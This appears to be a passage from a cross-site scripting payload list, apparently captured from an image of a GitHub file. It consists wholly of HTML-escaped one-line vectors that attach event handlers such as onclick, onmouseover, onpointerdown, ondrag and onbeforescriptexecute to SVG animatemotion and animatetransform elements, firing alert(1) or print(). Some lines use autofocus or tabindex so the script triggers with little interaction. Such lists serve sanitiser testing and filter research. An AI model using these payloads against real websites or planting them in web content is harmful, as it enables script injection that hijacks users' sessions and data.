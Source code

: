 &lt;animatemotion id=x tabindex=1 onbeforedeactivate=print()&gt;&lt;/animatemotion&gt;&lt;input autofocus&gt;
&lt;animatemotion id=x tabindex=1 ondeactivate=print()&gt;&lt;/animatemotion&gt;&lt;input id=y autofocus&gt;
&lt;animatemotion onafterscriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;animatemotion onbeforescriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;animatemotion onclick="alert(1)"&gt;test&lt;/animatemotion&gt;
&lt;animatemotion oncontextmenu="alert(1)"&gt;test&lt;/animatemotion&gt;
&lt;animatemotion oncopy=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;animatemotion oncut=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;animatemotion ondblclick="alert(1)" autofocus tabindex=1&gt;test&lt;/animatemotion&gt;
&lt;animatemotion onkeydown="alert(1)" contenteditable&gt;test&lt;/animatemotion&gt;
&lt;animatemotion onkeypress="alert(1)" contenteditable&gt;test&lt;/animatemotion&gt;
&lt;animatemotion onkeyup="alert(1)" contenteditable&gt;test&lt;/animatemotion&gt;
&lt;animatemotion onmousedown="alert(1)"&gt;test&lt;/animatemotion&gt;
&lt;animatemotion onmouseenter="alert(1)"&gt;test&lt;/animatemotion&gt;
&lt;animatemotion onmouseleave="alert(1)"&gt;test&lt;/animatemotion&gt;
&lt;animatemotion onmousemove="alert(1)"&gt;test&lt;/animatemotion&gt;
&lt;animatemotion onmouseout="alert(1)"&gt;test&lt;/animatemotion&gt;
&lt;animatemotion onmouseover="alert(1)"&gt;test&lt;/animatemotion&gt;
&lt;animatemotion onmouseup="alert(1)"&gt;test&lt;/animatemotion&gt;
&lt;animatemotion onmousewheel=alert(1)&gt;requires scrolling
&lt;animatemotion onpointerdown=alert(1)&gt;XSS&lt;/animatemotion&gt;
&lt;animatemotion onpointerenter=alert(1)&gt;XSS&lt;/animatemotion&gt;
&lt;animatemotion onpointerleave=alert(1)&gt;XSS&lt;/animatemotion&gt;
&lt;animatemotion onpointermove=alert(1)&gt;XSS&lt;/animatemotion&gt;
&lt;animatemotion onpointerout=alert(1)&gt;XSS&lt;/animatemotion&gt;
&lt;animatemotion onpointerover=alert(1)&gt;XSS&lt;/animatemotion&gt;
&lt;animatemotion onpointerrawupdate=alert(1)&gt;XSS&lt;/animatemotion&gt;
&lt;animatemotion onpointerup=alert(1)&gt;XSS&lt;/animatemotion&gt;
&lt;animatetransform draggable="true" ondrag="alert(1)"&gt;test&lt;/animatetransform&gt;
&lt;animatetransform draggable="true" ondragend="alert(1)"&gt;test&lt;/animatetransform&gt;
&lt;animatetransform draggable="true" ondragenter="alert(1)"&gt;test&lt;/animatetransform&gt;
&lt;animatetransform draggable="true" ondragleave="alert(1)"&gt;test&lt;/animatetransform&gt;
&lt;animatetransform draggable="true" ondragstart="alert(1)"&gt;test&lt;/animatetransform&gt;
&lt;animatetransform id=x tabindex=1 onactivate=alert(1)&gt;&lt;/animatetransform&gt;
&lt;animatetransform id=x tabindex=1 onbeforeactivate=alert(1)&gt;&lt;/animatetransform&gt;
&lt;animatetransform id=x tabindex=1 onbeforedeactivate=print()&gt;&lt;/animatetransform&gt;&lt;input autofocus&gt;
&lt;animatetransform id=x tabindex=1 ondeactivate=print()&gt;&lt;/animatetransform&gt;&lt;input id=y autofocus&gt;
&lt;animatetransform onafterscriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;animatetransform onbeforescriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;animatetransform onclick="alert(1)"&gt;test&lt;/animatetransform&gt;
&lt;animatetransform oncontextmenu="alert(1)"&gt;test&lt;/animatetransform&gt;
&lt;animatetransform oncopy=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;animatetransform oncut=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;animatetransform ondblclick="alert(1)" autofocus tabindex=1&gt;test&lt;/animatetransform&gt;
&lt;animatetransform onkeydown="alert(1)" contenteditable&gt;test&lt;/animatetransform&gt;
&lt;animatetransform onkeypress="alert(1)" contenteditable&gt;test&lt;/animatetransform&gt;
&lt;animatetransform onkeyup="alert(1)" contenteditable&gt;test&lt;/animatetransform&gt;
&lt;animatetransform onmousedown="alert(1)"&gt;test&lt;/animatetransform&gt;
&lt;animatetransform onmouseenter="alert(1)"&gt;test&lt;/animatetransform&gt;
&lt;animatetransform onmouseleave="alert(1)"&gt;test&lt;/animatetransform&gt;
&lt;animatetransform onmousemove="alert(1)"&gt;test&lt;/animatetransform&gt;
&lt;animatetransform onmouseout="alert(1)"&gt;test&lt;/animatetransform&gt;
&lt;animatetransform onmouseover="alert(1)"&gt;test&lt;/animatetransform&gt;
&lt;animatetransform onmouseup="alert(1)"&gt;test&lt;/animatetransform&gt;
&lt;animatetransform onmousewheel=alert(1)&gt;requires scrolling
&lt;animatetransform onpointerdown=alert(1)&gt;XSS&lt;/animatetransform&gt;
&lt;animatetransform onpointerenter=alert(1)&gt;XSS&lt;/animatetransform&gt;
&lt;animatetransform onpointerleave=alert(1)&gt;XSS&lt;/animatetransform&gt;
&lt;animatetransform onpointermove=alert(1)&gt;XSS&lt;/animatetransform&gt;
&lt;animatetransform onpointerout=alert(1)&gt;XSS&lt;/animatetransform&gt;